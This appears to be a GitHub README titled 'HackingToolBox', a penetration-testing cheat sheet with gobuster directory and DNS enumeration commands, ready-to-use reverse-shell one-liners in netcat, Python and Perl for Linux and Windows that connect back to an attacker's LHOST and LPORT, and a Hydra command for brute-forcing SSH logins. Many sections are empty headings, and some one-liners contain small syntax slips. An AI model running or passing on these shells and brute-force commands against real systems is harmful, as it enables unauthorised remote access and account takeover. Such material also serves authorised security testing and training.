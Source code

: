 # HackingToolBox
![image](https://user-images.githubusercontent.com/62963762/78167617-0dbdc380-744f-11ea-926d-915dc78722a1.png)  
**RHOST** : Ip address of the target machine  
**RPORT** : Listening port of the target machine  
**LHOST** : Ip address of the auditor computer  
**LPORT** : Listening port of the auditor computer  


## Énumération
### Windows 
### Linux 
### Nmap
### FTP (File Transfer Protocol)
### SMB
### Web
**gobuster :** tool to bruteforce directory and file

  
`dir` mode :
  
```bash
gobuster dir -u http://RHOST -t 50 -w wordlist.txt -x .php,.html,.htm
```

```bash
Flags:
  -f, --addslash                      Append / to each request
  -c, --cookies string                Cookies to use for the requests
  -e, --expanded                      Expanded mode, print full URLs
  -x, --extensions string             File extension(s) to search for
  -r, --followredirect                Follow redirects
  -H, --headers stringArray           Specify HTTP headers, -H 'Header1: val1' -H 'Header2: val2'
  -h, --help                          help for dir
  -l, --includelength                 Include the length of the body in the output
  -k, --insecuressl                   Skip SSL certificate verification
  -n, --nostatus                      Don't print status codes
  -P, --password string               Password for Basic Auth
  -p, --proxy string                  Proxy to use for requests [http(s)://host:port]
  -s, --statuscodes string            Positive status codes (will be overwritten with statuscodesblacklist if set) (default "200,204,301,302,307,401,403")
  -b, --statuscodesblacklist string   Negative status codes (will override statuscodes if set)
      --timeout duration              HTTP Timeout (default 10s)
  -u, --url string                    The target URL
  -a, --useragent string              Set the User-Agent string (default "gobuster/3.0.1")
  -U, --username string               Username for Basic Auth
      --wildcard                      Force continued operation when wildcard found

Global Flags:
  -z, --noprogress        Don't display progress
  -o, --output string     Output file to write results to (defaults to stdout)
  -q, --quiet             Don't print the banner and other noise
  -t, --threads int       Number of concurrent threads (default 10)
      --delay duration    Time each thread waits between requests (e.g. 1500ms)
  -v, --verbose           Verbose output (errors)
  -w, --wordlist string   Path to the wordlist
```

`dns` mode :
```bash
gobuster dns -d http://RHOST -t 50 -w wordlist.txt
```
```bash
Flags:
  -d, --domain string      The target domain
  -h, --help               help for dns
  -r, --resolver string    Use custom DNS server (format server.com or server.com:port)
  -c, --showcname          Show CNAME records (cannot be used with '-i' option)
  -i, --showips            Show IP addresses
      --timeout duration   DNS resolver timeout (default 1s)
      --wildcard           Force continued operation when wildcard found

Global Flags:
  -z, --noprogress        Don't display progress
  -o, --output string     Output file to write results to (defaults to stdout)
  -q, --quiet             Don't print the banner and other noise
  -t, --threads int       Number of concurrent threads (default 10)
      --delay duration    Time each thread waits between requests (e.g. 1500ms)
  -v, --verbose           Verbose output (errors)
  -w, --wordlist string   Path to the wordlist 
```

## One-liner reverse shell
command to execute on the listener side to connect to the remote machine :
```bash
nc -lvp LPORT
```
### netcat
Linux : 
```bash
nc LHOST LPORT -e /bin/bash
```
Windows :
```bat
nc.exe LHOST LPORT -e cmd.exe
```
### python
Linux : 
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)s.connect(("LHOST",LPORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
Windows : 
```bat
C:\Python26\python.exe -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("LHOST",LPORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['C:\\WINDOWS\\system32\\cmd.exe','-i']);"
```
### perl
```perl
perl -e 'use Socket;$i="LHOST";$p=LPORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp")) if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
### bash
### php
### ruby
### telnet
### socat
### java

## Exploitation
### msfvenom
### metasploit
### searchsploit
### evil-winrm
### mimikatz


## Bruteforce
### John the ripper
### Hydra
bruteforce ssh login :  
`hydra -L user.txt -P /usr/share/wordlists/rockyou.txt RHOST -t 5 ssh -I`
